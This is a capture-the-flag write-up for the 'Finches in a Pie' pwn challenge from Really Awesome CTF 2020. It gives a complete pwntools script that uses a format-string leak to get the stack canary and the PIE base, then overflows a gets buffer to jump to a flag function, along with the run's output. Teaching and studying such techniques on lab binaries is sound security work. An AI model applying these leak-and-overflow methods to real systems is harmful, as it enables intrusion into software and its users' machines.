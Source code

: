 # Really Awesome CTF 2020

## Finches in a Pie

> 500
>
> Challenge instance ready at `88.198.219.20:41133`
>
> There's a service at ..., exploit it to get the flag.
>
> Author: Ironstone
>
> [`fiap`](fiap)

Tags: _pwn_ _x86_ _rop_ _bof_ _stack-canary_ _format-string_

## Summary

Format-string exploit leaks canary (and base process address) permitting `gets` to _get_ through, redirection execution to `flag`.

This is identical to [fias](https://github.com/datajerk/ctf-write-ups/blob/master/ractf2020/fias/README.md) with a minor change.  Please read that first.


## Analysis

### Checksec

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Unlike [fias](https://github.com/datajerk/ctf-write-ups/blob/master/ractf2020/fias/README.md), most mitigations are in place.  In addition to leaking the canary, we'll have to leak the base process address as well.

> Checkout position three in the stack dump from [fias](https://github.com/datajerk/ctf-write-ups/blob/master/ractf2020/fias/README.md).


## Exploit

```
#!/usr/bin/python3

from pwn import *
import sys

#p = process('./fiap')
p = remote('88.198.219.20',43174)

binary = ELF('./fiap')

p.recvuntil('What\'s your name?')
p.sendline('%11$p,%3$p')
p.recvuntil('Thank you, ')
_ = p.recvline().strip().strip(b'!')

# 0x5655628f  →  <say_hi+13> add ebx, 0x2d71
baseproc = int(_.split(b',')[1],16) - binary.symbols['say_hi'] - 13
canary = int(_.split(b',')[0],16)

p.recvuntil('Would you like some cake?')

payload  = (0x29 - 16) * b'A'
payload += p32(canary)
payload += 3 * p32(0x0) # ebx, edi, ebp
payload += p32(baseproc + binary.symbols['flag'])

p.sendline(payload)
p.recvline()
_ = p.recv(100).decode().strip()
print(_)
```

This differsers from [fias](https://github.com/datajerk/ctf-write-ups/blob/master/ractf2020/fias/README.md) in that we're leaking two stack parameters: `%11$p,%3$p`, the canary and the address of `say_hi+13`.  With the address of `say_hi` known we can compute the base process address, and then the exploit is the same as before, however we need to add `baseproc` to the address of `flag`.

Output:

```
# ./exploit.py
[+] Opening connection to 88.198.219.20 on port 43174: Done
[*] '/pwd/datajerk/ractf2020/fiap/fiap'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
ractf{B4k1ng_4_p1E!}
```


